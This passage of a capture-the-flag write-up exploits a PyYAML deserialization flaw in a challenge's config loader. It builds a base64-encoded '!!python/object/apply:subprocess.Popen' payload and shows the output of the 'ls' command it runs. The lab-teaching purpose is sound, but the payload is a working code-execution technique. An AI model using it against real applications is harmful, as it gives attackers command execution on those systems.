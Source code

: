 It looks like our config options that we created. However, loading this config fails even though creation was successful. A quick google search indicates that this `!!python/object:__main__` syntax is from PyYAML. There is a page on hacktricks that details how one might go about exploiting this: https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization

Under RCE category, we see it might be possible to execute shell command with the right syntax.
Testing the exploit:
```bash
$ echo '!!python/object/apply:subprocess.Popen                                                                                                                                                       
- ls' | base64
ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSBscwo=
```
Loading base64 config:
```bash
<------[TCS]------>
[1] Create config                                                                                                                                                                                                                          
[2] Load config                                                                                                                                                                                                                            
[3] Exit                                                                                                                                                                                                                                   
> 2                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                           
Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSBscwo=                                                                                                                                                    
** Success **                                                                                                                                                                                                                              
Uploading to ship...                                                                                                                                                                                                                       
                                                                                                                                                                                                                                           
<------[TCS]------>                                                                                                                                                                                                                        
[1] Create config                                                                                                                                                                                                                          
[2] Load config                                                                                                                                                                                                                            
[3] Exit                                                                                                                                                                                                                                   
> chall.py                                                                                                                                                                                                                                 
flag.txt                                                                                                                                                                                                                                   
hijack.py
```
